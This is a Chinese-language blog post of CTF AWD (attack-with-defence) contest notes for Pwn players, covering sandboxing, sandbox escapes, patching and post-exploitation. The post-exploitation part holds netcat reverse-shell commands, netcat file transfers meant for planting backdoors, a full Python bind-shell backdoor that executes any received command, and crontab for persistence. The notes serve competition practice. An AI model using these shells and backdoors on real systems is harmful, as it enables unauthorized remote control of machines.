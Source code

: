 ```yaml
---
title: CTF线下赛AWD中Pwn选手该如何生存
tags:
  - PWN
  - AWD
categories: []
date: 2017-05-16 07:43:00
---
```


## 关于赛前准备

### Sandbox

这两天准备XNUCA的时候一直在考虑沙盒的事情，因为awd中沙盒可以有效的保证在开局不会被打成筛子，在写沙盒的时候我又有了很多种可以选择的技术方案

+ ptrace
+ seccomp bpf
+ chroot
+ LD_PRELOAD

### excape Sandbox

+ ptrace

1. fork/vfork/clone
2. kill parent process
3. change arch(32 -> 64/64 -> 32ABI)

+ seccomp(not easy to use in awd)

### Patch艺术

1. inline patch

## 后渗透

1. nc 接收文件与传文件，我们可以将后门通过这种方式传过去
`nc -l -p port > filename`
`nc -q 1 dest_ip port < filename`（-q 传输完成1秒后断开连接）

2. nc反向连接
远程`nc -c /bin/sh local_ip locat_port`
`/bin/sh | nc local_ip local_port`
本地监听`nc -l -p local_port -vvv`

3. python的一个后门

```python
#!/usr/bin/env python
# coding=utf-8

import socket
import os
import sys
import subprocess

def makeio():
    c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    c.bind(('0.0.0.0', 10005))
    c.listen(1)
    s, a = c.accept()
    return s, a

def interactive(s):
    while True:
        data = s.recv(1024)
        if data == 'exit\n':
            return 0
        proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE)
        stdoutput = proc.stdout.read() + proc.stderr.read()
        s.send(stdoutput)

def closeio(s):
    s.close()

if __name__ == '__main__':
    s, a = makeio()
    interactive(s)
    closeio(s)
    sys.exit()
```
说是后门，其实也就是绑定端口后连接，参考了[这个](https://github.com/jeffreysasaki/backdoor)

4. wget下载文件

```bash
wget -O ./filename URL
```

5. crontab

`crontab [-e | -l]`